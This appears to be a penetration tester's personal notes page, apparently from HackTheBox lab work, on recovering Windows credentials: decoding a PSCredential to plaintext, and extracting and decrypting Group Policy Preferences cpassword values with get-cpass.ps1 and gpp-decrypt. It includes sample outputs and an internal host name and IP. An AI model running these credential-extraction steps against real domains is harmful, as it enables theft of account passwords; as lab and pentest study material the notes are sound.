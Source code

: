 > \$cred.GetNetworkCredential()|fl
    * UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB



## GPP/Cpassword hashes
* Group Policy Preferences feature used in AD environments
* groups.xml file is what we are after that sets up a user and hash readable by domain joined machines normally
* http://obscuresecurity.blogspot.com/2012/05/gpp-password-retrieval-with-powershell.html 
* download the files captured using smbserver.py to a windows box and crack with powershell module
+ Windows Pentest Box: LB-VDT-09 192.168.1.148 
* https://pentestlab.blog/tag/cpassword/


### Powershell Script

**Powershell from Windows Pentest Box > Login with my domain creds**
> root@kali:~# ./LB-VDT-09.sh

From here open powershell ISE or powershell and just run the files on my desktop ie:

> PS C:\Users\steven.bracamonte\Desktop> .\get-cpass.ps1 .\Groups.xml

    UserName                      NewName                       Password                    
    --------                      -------                       --------                    
    contoso.com\SVC_TGS                                          passWORd!  

**Powershell From Linux installation**
> root@kali:~/HTB/hosts/Active# pwsh get-cpass.ps1 Groups.xml 

    UserName           NewName Password
    --------           ------- --------
    Contoso.com\SVC_TGS         passWORD!

### gppdecrypt
* supply the cpassword string directly
https://tools.kali.org/password-attacks/gpp-decrypt

>  gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

    /usr/bin/gpp-decrypt:21: warning: constant OpenSSL::Cipher::Cipher is deprecated

    passWORD!

#### Read .pol file
https://github.com/PowerShell/GPRegistryPolicy

* use win desktop pen testing machine and the command: 

> Parse-PolFile -Path "C:\temp\Registry.pol"

### Word Mangling/password list
    set mangling options in /etc/john/john.conf
